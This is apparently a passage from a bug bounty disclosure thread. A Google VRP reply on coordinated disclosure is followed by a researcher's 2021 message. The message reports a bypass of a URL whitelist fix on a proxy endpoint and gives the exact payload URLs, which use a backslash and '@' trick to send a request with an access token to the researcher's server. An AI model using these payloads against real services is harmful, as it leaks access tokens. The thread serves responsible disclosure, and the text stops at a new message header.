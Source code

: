 Hi,

Thanks for the heads up about the disclosure of your report.

Please read [our stance on coordinated disclosure](https://security.googleblog.com/2010/07/rebooting-responsible-disclosure-focus.html). In essence, **our pledge to you is to respond promptly and fix vulnerabilities in a sensible timeframe** - and in exchange, **we ask for a reasonable advance notice**. 

Some things to note:

1. We might decide not to file a bug, or not to issue a VRP reward. Even if this is the case, please still coordinate your disclosure with us. Many of the reports we receive don't describe vulnerabilities with an impact that qualifies for a reward, but we still want to make sure we are prepared for your vulnerability disclosure.
2. We usually decide and pay the rewards before the vulnerability is fixed. The reward is not a payment for your silence, but we really want to have a chance to fix it on time for your disclosure, so please keep us up to date with the disclosure timeline, so we can update the engineering team of your plans.
3. If you gave us enough time to fix the described issue (you can read https://www.google.com/about/appsecurity/ for inspiration), and we are anyway unable to fix it before your disclosure date, we'll try to let you know in time (the disclosure date would still be your own decision).

At the end, **the decision on what to disclose and when is yours**, and we would be happy to forward any blog posts, slides, or paper drafts you might have to our teams internally (we might even provide you feedback). Thanks again for your help.

PS. If you give a talk, or make a blog post, or similar about this bug, please send us a link, we would love to read it, we might even tweet it from [our Twitter account](https://twitter.com/GoogleVRP).

---

**Me - 2021-06-16 12:10**

Hi,

So before starting to work on the writeup, I wanted to test the fix. It indeed fixed the original trick of using `https://[your_domain]\@jobs.googleapis.com`.

But playing around a bit, I have found a way to once again bypass the URL whitelist: \
`https://cxl-services.appspot.com/proxy?url=https://sfmnev.vps.xdavidhu.me\_@jobs.googleapis.com/`

Opening this URL sends a request to my server with an access token.

Actually, it is not specific to the `_` character. Putting anything between the `\` and the `@` bypasses the whitelist, for example: \
`https://cxl-services.appspot.com/proxy?url=https://sfmnev.vps.xdavidhu.me\anything@jobs.googleapis.com/`

Thank you, \
David

---

**Me - 2021-06-17 09:36**

Hi,
